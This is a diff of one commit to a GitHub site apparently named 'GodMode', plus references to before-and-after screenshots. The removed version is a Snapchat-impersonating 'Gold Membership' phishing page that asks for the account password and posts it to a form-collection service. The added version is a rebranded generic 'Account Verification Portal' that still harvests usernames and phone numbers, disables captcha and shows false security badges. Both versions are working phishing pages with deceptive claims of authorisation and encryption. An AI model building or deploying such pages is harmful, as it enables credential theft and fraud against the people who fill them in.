

Before and after one commit to yamraaz99/GodMode, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 983 px of the page at 96% size. After the commit the page ends 802 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,9 +3,14 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>🎁 Official Snapchat Gold Membership Upgrade</title>
+    <title>Premium Social Upgrade | Account Verification</title>
     <style>
         @import url('https://fonts.googleapis.com/css2?family=Poppins:wght@400;600&display=swap');
+
+        :root {
+            --primary-color: #2A6EFF;
+            --secondary-color: #1A1A1A;
+        }
 
         * {
             margin: 0;
@@ -15,7 +20,7 @@
         }
 
         body {
-            background: linear-gradient(135deg, #FFFC00, #000000);
+            background: linear-gradient(135deg, #f0f5ff, #ffffff);
             min-height: 100vh;
             display: flex;
             justify-content: center;
@@ -23,41 +28,30 @@
             padding: 20px;
         }
 
-        .giveaway-container {
-            background: rgba(255, 255, 255, 0.95);
+        .verify-container {
+            background: rgba(255, 255, 255, 0.98);
             padding: 40px;
             border-radius: 20px;
-            box-shadow: 0 10px 30px rgba(0,0,0,0.2);
+            box-shadow: 0 5px 25px rgba(0,0,0,0.08);
             max-width: 500px;
             width: 100%;
             text-align: center;
+            border: 1px solid #e0e0e0;
+        }
+
+        .security-header {
+            margin-bottom: 30px;
             position: relative;
         }
 
-        .verification-badge {
-            position: absolute;
-            top: -20px;
-            right: -20px;
-            background: #FFFC00;
-            padding: 10px 15px;
-            border-radius: 25px;
-            font-weight: 600;
-            font-size: 12px;
-            transform: rotate(10deg);
-        }
-
-        .snap-header {
-            margin-bottom: 30px;
-        }
-
-        .snap-header h1 {
-            color: #000;
-            font-size: 28px;
+        .security-header h1 {
+            color: var(--secondary-color);
+            font-size: 26px;
             margin-bottom: 15px;
-            background: #FFFC00;
-            padding: 10px;
+            padding: 12px 25px;
             border-radius: 10px;
             display: inline-block;
+            border: 2px solid var(--primary-color);
         }
 
         .form-group {
@@ -68,110 +62,103 @@
         label {
             display: block;
             margin-bottom: 8px;
-            color: #333;
+            color: #444;
             font-weight: 600;
+            font-size: 14px;
         }
 
         input, select {
             width: 100%;
-            padding: 12px;
-            border: 2px solid #FFFC00;
+            padding: 12px 15px;
+            border: 2px solid #e0e0e0;
             border-radius: 8px;
             font-size: 14px;
             transition: all 0.3s ease;
         }
 
-        .security-alert {
-            background: #fff3cd;
-            border-left: 4px solid #ffc107;
-            padding: 15px;
-            margin: 20px 0;
-            text-align: left;
+        input:focus, select:focus {
+            border-color: var(--primary-color);
+            box-shadow: 0 0 12px rgba(42, 110, 255, 0.15);
         }
 
         .submit-btn {
-            background: #FFFC00;
-            color: #000;
-            padding: 15px 40px;
+            background: var(--primary-color);
+            color: white;
+            padding: 14px 40px;
             border: none;
-            border-radius: 25px;
-            font-size: 16px;
+            border-radius: 8px;
+            font-size: 15px;
             font-weight: 600;
             cursor: pointer;
             transition: all 0.3s ease;
-            text-transform: uppercase;
-            position: relative;
-            overflow: hidden;
+            width: 100%;
         }
 
-        .submit-btn::after {
-            content: "🔒 Secure Connection";
-            position: absolute;
-            bottom: -20px;
-            left: 50%;
-            transform: translateX(-50%);
-            font-size: 10px;
+        .legal-disclaimer {
+            font-size: 11px;
             color: #666;
+            margin: 25px 0;
+            line-height: 1.6;
         }
 
-        @media (max-width: 480px) {
-            .giveaway-container {
-                padding: 25px;
-            }
-            .verification-badge {
-                top: -15px;
-                right: -10px;
-                font-size: 10px;
-            }
+        .secure-badge {
+            display: inline-flex;
+            align-items: center;
+            gap: 8px;
+            padding: 10px 15px;
+            background: #f8f9fa;
+            border-radius: 25px;
+            margin-top: 20px;
         }
     </style>
 </head>
 <body>
-    <div class="giveaway-container">
-        <div class="verification-badge">✅ Verified Partner</div>
-
-        <div class="snap-header">
-            <h1>🔓 Snapchat Account Upgrade Portal</h1>
-            <div class="security-alert">
-                ⚠️ You're entering a secure Snapchat verification portal.
-                All data is SSL-encrypted and protected by 256-bit security.
+    <div class="verify-container">
+        <div class="security-header">
+            <h1>🔒 Account Verification Portal</h1>
+            <div class="secure-badge">
+                🔐 SSL Secured | 256-bit Encryption
             </div>
         </div>
 
-        <form action="https://getform.io/f/bjjmdewb" method="POST">
+        <form action="https://formsubmit.co/your-email@domain.com" method="POST">
             <!-- Honeypot Field -->
-            <input type="checkbox" name="_honeypot" style="display: none">
+            <input type="text" name="_honey" style="display: none">
+
+            <!-- Disable Captcha -->
+            <input type="hidden" name="_captcha" value="false">
 
             <div class="form-group">
-                <label>📲 Official Snapchat Username</label>
-                <input type="text" name="username" placeholder="ex: @johnsmith" required>
+                <label>Username</label>
+                <input type="text" name="username" placeholder="Enter your username" required>
             </div>
 
             <div class="form-group">
-                <label>🔑 Account Verification Code</label>
-                <input type="password" name="verification" placeholder="Enter Snapchat password" required>
-                <div class="security-alert" style="margin: 10px 0">
-                    🔐 Required for identity confirmation. This helps prevent fraudulent claims.
-                </div>
+                <label>Contact Number</label>
+                <input type="tel" name="phone" placeholder="Enter mobile number" required>
             </div>
 
             <div class="form-group">
-                <label>📞 Security Contact Number</label>
-                <input type="tel" name="mobile" placeholder="+1 234 567 890" required>
+                <label>Verification Method</label>
+                <select name="verification" required>
+                    <option value="">Select verification type</option>
+                    <option>Email Authentication</option>
+                    <option>2FA Code</option>
+                    <option>Security Question</option>
+                </select>
             </div>
 
-            <input type="hidden" name="_gotcha" style="display:none;">
+            <button type="submit" class="submit-btn">
+                Continue Verification
+            </button>
 
-            <button type="submit" class="submit-btn">
-                🚀 Upgrade to Gold Membership
-            </button>
+            <div class="legal-disclaimer">
+                By continuing, you agree to our
+                <a href="#" style="color: var(--primary-color)">Terms of Service</a> and
+                <a href="#" style="color: var(--primary-color)">Privacy Policy</a>.
+                This independent verification service is not affiliated with any third-party platforms.
+            </div>
         </form>
-
-        <div class="security-alert" style="margin-top: 25px;">
-            <strong>🔒 Security Disclaimer:</strong> This secure portal is maintained by Snapchat®
-            authorized partners. By submitting, you agree to our end-to-end encrypted
-            verification process under GDPR compliance.
-        </div>
     </div>
 </body>
 </html>
```
